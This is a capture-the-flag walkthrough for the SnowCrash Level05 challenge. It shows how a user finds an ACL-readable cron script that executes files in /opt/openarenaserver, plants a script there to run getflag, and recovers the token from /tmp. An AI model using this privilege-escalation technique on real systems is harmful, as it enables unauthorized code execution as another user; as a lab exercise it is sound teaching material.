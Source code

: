 # SnowCrash

## Level05
```sh
level05@SnowCrash:~$ ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile

level05@SnowCrash:~$ find / -user level05 2>/dev/null | grep -v proc

level05@SnowCrash:~$ find / -user flag05 2>/dev/null | grep -v proc
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

```sh
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

We can see that our current user has no right on this file but the + indicates that the file has extended permissions (via ACLs)

Let's check them
```sh
level05@SnowCrash:~$ getfacl /usr/sbin/openarenaserver
getfacl: Removing leading '/' from absolute path names
# file: usr/sbin/openarenaserver
# owner: flag05
# group: flag05
user::rwx
user:level05:r--
group::r-x
mask::r-x
other::---
```

We are able to read the file so let's see
```sh
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

This bash script iterates over every file in /opt/openarenaserver directory
It execute the file and then delete it

Since we do not have permission to execute it, it might get executed automatically from a cronjob or some other event, let's try it

## Exploit

```sh
level05@SnowCrash:~$ echo "getflag" > /opt/openarenaserver/exploit.sh
level05@SnowCrash:~$ ls -l /opt/openarenaserver
total 4
-rw-rw-r--+ 1 level05 level05 8 Mar  6 13:25 exploit.sh
```

Let's wait a few minutes to check if it's being executed periodically via a cronjob

```sh
level05@SnowCrash:~$ ls -l /opt/openarenaserver
total 0
```

Perfect! Our script got removed but we have no traces of it, let's write the output of getflag into a tmp file in order to retrieve it

```sh
level05@SnowCrash:~$ echo "getflag > /tmp/flag" > /opt/openarenaserver/exploit.sh
level05@SnowCrash:~$ ls -l /opt/openarenaserver
total 4
-rw-rw-r--+ 1 level05 level05 20 Mar  6 13:31 exploit.sh
```

```sh
level05@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```